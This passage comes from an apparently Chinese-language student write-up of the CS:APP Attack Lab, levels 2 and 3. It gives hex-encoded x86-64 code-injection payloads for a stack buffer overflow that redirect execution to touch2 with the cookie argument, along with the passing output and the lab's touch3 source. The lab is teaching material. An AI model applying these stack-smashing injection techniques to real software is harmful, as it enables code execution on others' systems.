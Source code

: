 这里我调整了%rsp使其与正常调用返回一致，均为$0x5561dca0，而之前两个方法分别是0x5561dc98和0x5561dca8。故有：

```
48 c7 c7 fa 97 b9 59 /* mov    $0x59b997fa,%rdi 这里就是address1 */
49 c7 c3 a0 dc 61 55 /* mov    $0x5561dca0,%r11 */
49 c7 03 ec 17 40 00 /* movq   $0x4017ec,(%r11) */
4c 89 dc	/* mov    %r11,%rsp */
c3 00 00 00 00 00 00 00 /* ret */
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 /* 前往address 1 */
```

然后就：

```bash
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
··· # 被我省略了
```

很有意思的是，我发现%rsp为0x5561dca0、0x5561dcb0、0x5561dcc0、0x5561dcd0都可以PASS，然而0x5561dc98、0x5561dca8、0x5561dcb8、0x5561dcc8都会FAIL。不是很懂呢~

**3）法三（best）**

法三利用了push来漂亮地避免了%rsp在返回时不为0x5561dca0的情况。

```
48 c7 c7 fa 97 b9 59 /* mov    $0x59b997fa,%rdi 这里就是address1 */
68 ec 17 40 00 /* pushq  $0x4017ec */
c3 00 00 00 00 00 00 00 /* ret */
00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 
78 dc 61 55 00 00 00 00 /* 前往address 1 */ 
```

上面这个答案可以成功PASS。这个做法巧妙保证了%rsp值与正常返回的值相同。

然而有个傻瓜把`pushq  $0x4017ec`写成了`pushq  0x4017ec`，结果转换为的二进制是`ff 34 25 ec 17 40 00`，而不是`68 ec 17 40 00`。这个答案会直接segmentation fault。他还去在Intel<a href="https://www.intel.com/content/dam/www/public/us/en/documents/manuals/64-ia-32-architectures-software-developer-instruction-set-reference-manual-325383.pdf">用户手册</a>的Vol. 2B 4-511中，发现push立即数的指令应当为0x68，而0xFF应当对应ModRM寻址模式，浪费了一个下午。。。不要问我怎么知道的！

### 1.3 Level 3

touch3()和相关的hexmatch()给出，为了节省篇幅没有给出汇编：

```c
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval) {
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval) { /* 查汇编有touch3地址0x4018fa */
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```